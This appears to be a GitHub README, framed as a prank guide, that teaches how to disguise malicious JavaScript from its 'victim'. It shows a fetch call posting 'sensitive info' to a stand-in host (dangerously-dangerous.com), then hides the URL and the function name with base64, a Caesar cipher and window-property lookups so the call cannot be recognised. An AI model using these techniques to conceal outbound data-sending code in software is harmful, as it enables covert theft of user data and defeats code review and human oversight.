 # EXTREME-UGLIFICATION of your code

This is not a prank really but more of a way to sneak your pranks to your target.
JavaScript being an interpreted language means it is really easy to read the code being executed. So, uglify your code. But even then its is readable. So, uglify it EXTREMELY by encrypting or encoding it to garbage. Doing it to the entire file can be a dead giveaway tho so you can instead just encrypt parts of the file that are easily readable. There are many ways to do this. Heres what I mean by this.

Heres your dangerously dangerous code -
```javascript
fetch('http://dangerously-dangerous.com/something', { method: 'post', body: { sensitive: 'info' } });
```

Looking at that you know that this will make a dangerously dangerous api call to possibly steal some sensitive info. Lets hide the url.

There are many ways to make it less readable. One of them is atob (base64)

So now it'll look like this
```javascript
fetch(atob('aHR0cDovL2Rhbmdlcm91c2x5LWRhbmdlcm91cy5jb20vc29tZXRoaW5n'), { method: 'post', body: { sensitive: 'info' } });
```

But its still pretty clear that the snippet is making an api call. Let's take it a step further i.e. TOO-EXTREME-TO-HANDLE-UGLIFICATION

```javascript
const _ = atob;
window[_('ZmV0Y2g=')](_('aHR0cDovL2Rhbmdlcm91c2x5LWRhbmdlcm91cy5jb20vc29tZXRoaW5n'), { method: 'post', body: { sensitive: 'info' } });
```

Now guess what that code does. Now stop guessing because you already know the answer. But your victim won't.

Instead of base64, you can also use a simple ceaser cipher or xor encryption algorithms. And to take it a step further, use a different key for each of the values. You can also use jsfuck but I don't reccommend it as it will make it easy for a developer to recognize whats happening and can un-jsfuck it.

Heres the same example with ceaser cipher. The first parameter is the key, the second is the string
```javascript
const _ = (k, i) => i.split('').reduce((s, c) => s + String.fromCharCode(c.charCodeAt(0) + k), '');
window[_(2, 'dcraf')](_(-4, 'lxxt>33herkivsywp}1herkivsyw2gsq3wsqixlmrk'), { method: 'post', body: { sensitive: 'info' } });
```
